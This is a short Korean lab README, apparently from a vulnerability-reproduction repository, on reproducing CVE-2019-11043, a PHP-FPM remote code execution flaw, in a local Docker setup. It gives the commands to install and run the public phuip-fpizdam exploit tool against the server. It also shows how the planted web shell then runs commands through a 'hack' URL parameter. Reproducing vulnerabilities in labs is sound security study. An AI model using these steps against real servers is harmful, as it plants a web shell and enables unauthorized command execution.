





# PHP-FPM Remote Command Execution (CVE-2019-11043)

박정빈 github : jellybin06

이 취약점은 PHP의 FPM(FastCGI Process Manager) 구성에서 발생합니다. FPM은 웹 서버와 PHP 프로세스 간의 통신을 관리하는 역할을 합니다. 이 취약점은 FPM 구성에 대한 오용으로 인한 원격 코드 실행을 허용하는 것입니다.
이 취약점은 "phui-fpizdam"이라는 도구를 사용하여 PHP-FPM 서버와 통신합니다. 공격자는 다음과 같은 단계로 공격을 수행할 수 있습니다:
## Environment setup
도커를 실행하기 위해 docker compose up -d를 입력하여 실행합니다.
```
docker compose up -d
```


서버가 실행된 후 `http://your-ip:8080/index.php` 주소에 접속하여 페이지를 볼 수 있습니다.


## Vulnerability Reproduce

취약점을 공격하기 위해 <https://github.com/neex/phuip-fpizdam> 이 경로에 있는 도구를 사용합니다.
우선 sudo snap install go --classic 을 설치하고
go get github.com/neex/phuip-fpizdam 을 실행하여 
phuip-fpizdam 도구를 설치합니다.


공격을 진행하기 위해 ~/go/bin경로로 이동하여 ./phuip-fpizdam http://your-ip:8080/index.php 을 실행합니다.


그럼 웹쉘이 PHP-FPM 백그라운드로 실행되게 됩니다.
http://your-ip:8080/index.php?hack=id를 실행하면 RCE가 실행됩니다.

